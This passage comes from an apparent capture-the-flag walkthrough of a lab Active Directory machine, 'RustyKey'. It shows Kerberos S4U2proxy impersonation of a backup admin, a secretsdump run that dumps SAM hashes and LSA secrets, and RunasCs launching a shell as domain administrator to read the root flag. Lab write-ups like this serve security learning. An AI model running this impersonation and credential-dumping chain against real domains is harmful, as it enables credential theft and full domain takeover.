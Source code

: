 ```sh
[*] base64(ticket.kirbi):

      doIFtjCCBbKgAwIBBaEDAgEWooIEzzCCBMth<snip>aqA4bDFJVU1RZS0VZLkhUQqkaMBigAwIBAaERMA8bDWl0LWNvbXB1dGVyMyQ=

[*] Impersonating user 'backupadmin' to target SPN 'cifs/dc.rustykey.htb'
[*] Building S4U2proxy request for service: 'cifs/dc.rustykey.htb'
[*] Using domain controller: dc.rustykey.htb (fe80::e5b9:1d07:4258:53f5%11)
[*] Sending S4U2proxy request to domain controller fe80::e5b9:1d07:4258:53f5%11:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/dc.rustykey.htb':

      doIGfjCCBnqgAwIBBaEDAgEWooIFjzCCBY<snip>0VZLkhUQqkiMCCgAwIBAqEZMBcbBGNpZnMbD2RjLnJ1c3R5a2V5Lmh0Yg==
```

Using that ticket, we can use secretsdump remotely with the kirbi ticket `ticketConverter.py` to ccache.

```sh
 KRB5CCNAME=./misc.ccache secretsdump.py -k -no-pass dc.rustykey.htb

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x94660760272ba2c07b13992b57b432d4
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3aac437da6f5ae94b01a6e5347dd920:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesnt have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
RUSTYKEY\DC$:plain_password_hex:0c7fbe96b20b5afd1da58a1d71a2dbd6ac75b42a93de3c18e4b7d448316ca40c<snip>b4a4d55231d667ca4ba2ad36640985d9b18128f7755b25
RUSTYKEY\DC$:aad3b435b51404eeaad3b435b51404ee:b266231227e43be890e63468ab168790:::
[*] DefaultPassword 
RUSTYKEY\Administrator:<snip>
```

And using the cracked password from secretsdump, or any million other way to get admin credentials/tickets with a domain admin:

```sh
./RunasCs.exe administrator '<snip>' 'C:\Windows\Temp\shell.exe'
PS C:\Windows\system32> whoami
whoami
rustykey\administrator
PS C:\Windows\system32> type ~/desktop/root.txt
type ~/desktop/root.txt
7009df001bb824b882b95d11b600ffaf
```
